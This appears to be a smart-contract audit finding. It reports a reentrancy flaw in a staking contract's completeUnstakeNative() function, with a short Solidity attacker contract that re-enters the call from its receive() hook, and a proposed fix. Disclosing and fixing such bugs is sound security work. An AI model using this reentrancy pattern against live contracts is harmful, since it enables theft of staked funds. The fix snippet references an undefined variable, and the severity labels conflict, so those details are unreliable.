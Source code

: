 Generous Cherry Pelican

Medium

# [Actual High] Native Token Reentrancy Risk

# [HIGH] Native Token Reentrancy Risk

## Description
The `completeUnstakeNative()` function performs ETH transfer before state update, enabling reentrancy attacks.

## Impact
- **Funds Theft**: Attackers can drain WETH balances
- **State Corruption**: Staking records can be manipulated
- **Attack Cost**: Minimal (only requires gas fees)

## Proof of Concept
```solidity
// test/ReentrancyExploit.t.sol
contract Attacker {
    function attack() external {
        // Initial stake
        staking.stakeNative{value: 1 ether}();
        
        // Trigger reentrancy
        staking.completeUnstakeNative(0);
    }
    
    receive() external payable {
        if (gasleft() > 100000) {
            staking.completeUnstakeNative(0);
        }
    }
}
FIX TO ISSUE

// src/stake/LayerEdgeStaking.sol
function completeUnstakeNative(uint256 index) external nonReentrant {
    // State changes first
    unstakeRequests[msg.sender][index].completed = true;
    
    // Then external call
    (bool success,) = msg.sender.call{value: amount}("");
    require(success);
}

